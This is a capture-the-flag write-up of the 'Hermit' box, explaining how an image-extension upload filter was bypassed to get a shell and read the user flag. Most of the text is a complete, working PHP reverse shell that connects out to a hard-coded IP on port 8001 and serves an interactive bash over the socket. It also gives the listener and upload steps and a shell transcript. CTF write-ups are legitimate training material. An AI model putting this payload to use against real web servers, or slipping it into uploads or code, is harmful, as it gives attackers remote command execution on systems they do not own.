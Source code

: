 # Hermit - Part 1

## Description

Author: goproslowyo

This box was a simple extension filter bypass to gain a shell and get the flag.

### Process

1. Started `netcat` listener on `8001`.
2. Uploaded php reverse shell with an image extension -- `.png` worked fine.
3. We're given a random filename and a link to view it.
4. Viewing the link executed the reverse shell.
  `http://34.121.84.161:8086/show.php?filename=0YE8gg`.

```shell
hermit@aec9a5b5ef1d:/$ ls /home/hermit
ls /home/hermit
userflag.txt
hermit@aec9a5b5ef1d:/$ cat /home/hermit/userflag.txt
cat /home/hermit/userflag.txt
UMASS{a_picture_paints_a_thousand_shells}
```

### Screen Grabs

![user shell](./assets/shell.png)
![userflag.txt](./assets/flag.png)
![{a_test_of_integrity}](./assets/rootlol.png)
![proof](./assets/proof.png)

### PHP Shell

```php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '34.251.165.208';
$port = 8001;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
